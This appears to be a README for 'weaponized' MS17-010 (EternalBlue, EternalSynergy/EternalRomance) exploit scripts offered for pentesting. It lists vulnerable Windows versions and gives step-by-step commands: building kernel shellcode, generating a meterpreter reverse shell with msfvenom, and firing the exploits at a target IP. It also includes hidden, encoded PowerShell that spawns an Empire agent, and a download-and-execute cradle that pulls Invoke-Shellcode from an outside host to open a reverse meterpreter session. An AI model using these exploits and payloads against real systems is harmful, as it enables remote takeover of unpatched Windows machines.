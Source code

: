 # MS17-010 RCE PoC's

All credits go out to [worawit](https://github.com/worawit/MS17-010). I've just added some usage clarifications and weaponized them to be more usable for pentesting purposes.

## Eternalblue

Eternalblue only requires access to IPC$ to exploit a target while other exploits require access to a named pipe as well. Eternalblue thus works on all versions of Windows that allow anonymous access to IPC$ (Windows 7 and Windows 2008, or later version explicitly configured to allow anonymous access). Keep in mind that Eternalblue has a higher change of crashing a target than Eternalsynergy - Eternalromance.

### Compatible targets

**eternalblue_exploit7:**

- Windows 7 SP1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x86
- Windows 2008 SP1 x86

**eternalblue_exploit8:**

- Windows 2012 R2 x64
- Windows 8.1 x64

### Exploit usage

Example for spawning a meterpreter session on an x64 machine:

1. `nasm -f bin eternalblue_kshellcode_x64.asm`
2. `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_msf.bin EXITFUNC=thread LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>`
3. `cat eternalblue_kshellcode_x64 meterpreter_msf.bin > sc_x64.bin`
4. `python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin`


## Eternalsynergy - Eternalromance

This exploit exploits the same bug used by NSA's Eternalromance and Eternalsynergy. A named pipe is needed, meaning on more modern (default) configurations you will need credentials in order for the exploit to work. In most cases, domain user credentials will suffice. You can use `find_named_pipe.py` to find available named pipes on the target.

### Compatible targets

- Windows 2016 x64
- Windows 2012 R2 x64
- Windows 8.1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x64
- Windows 8.1 x86
- Windows 7 SP1 x86

### Usage

Example for finding a named pipe:

`python find_named_pip.py 192.168.178.26 testuser Password123`

Usage of `eternalsynergy_romance.py`: 

`python eternalsynergy_romance.py <target_ip_address> <named_pipe> <username> <password> <command_to_execute>`

Example for spawning an Empire agent:

`python eternalsynergy_romance.py 192.168.178.2 netlogon testuser !Password123 "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AEUAbQAuAE4AZQBUAC..."`

Example for spawning a meterpreter session:

`python eternalsynergy_romance.py 192.168.178.2 netlogon "testuser" !Password123 "powershell -Exec ByPass -NoP -noexit \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.3/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.178.3 -Lport 8443 -Force \""`

(I typically grab Invoke-Shellcode.ps1 from http://bit.ly/2cuWJTF, but that only works when the target has an unfiltered outbound connection.)
